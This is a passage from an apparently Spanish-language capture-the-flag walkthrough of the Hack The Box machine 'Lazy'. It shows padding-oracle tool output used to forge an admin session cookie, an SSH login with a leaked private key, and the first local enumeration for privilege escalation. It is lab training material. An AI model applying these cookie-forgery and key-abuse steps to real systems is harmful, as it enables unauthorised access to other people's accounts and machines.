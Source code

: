 ```bash
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Cuando nos indica que ID queremos, le indicaremos aquel que cuente con "\* \*". La herramienta tardará un rato en computarnos la cookie de sessión del usuario **admin**, Una vez que la tenemos, la modificamos con **Edit this cookie** e ingresamos al panel del usuario **admin**.

Ahora si, regresando con la llave id rsa que encontramos, la guardamos en un archivo que llamaremos `id_rsa`, le asignamos el permiso 600 y si ponemos atención en la dirección URL, encontramos el nombre del usuario a nivel de sistema **mysshkeywithnamemitsos** - **mitsos**; por lo tanto vamos a validar ingresando por ssh.

```bash
❯ ssh -i id_rsa mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Feb  6 04:31:04 EET 2022

  System load: 0.0               Memory usage: 4%   Processes:       192
  Usage of /:  48.3% of 2.76GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Dec  7 17:41:53 2021 from 10.10.14.22
mitsos@LazyClown:~$ whoami
mitsos
mitsos@LazyClown:~$
```

Hemos ingresado a la máquina como el usuario **mitsos** y podemos visualizar la flag (user.txt). Ahora vamos a enumrar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
mitsos@LazyClown:~$ id
uid=1000(mitsos) gid=1000(mitsos) groups=1000(mitsos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
mitsos@LazyClown:~$ sudo -l
[sudo] password for mitsos: 
mitsos@LazyClown:~$ ll
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7 17:43 ./
drwxr-xr-x 3 root   root   4096 Dec  7 16:27 ../
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7 16:27 .cache/
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
```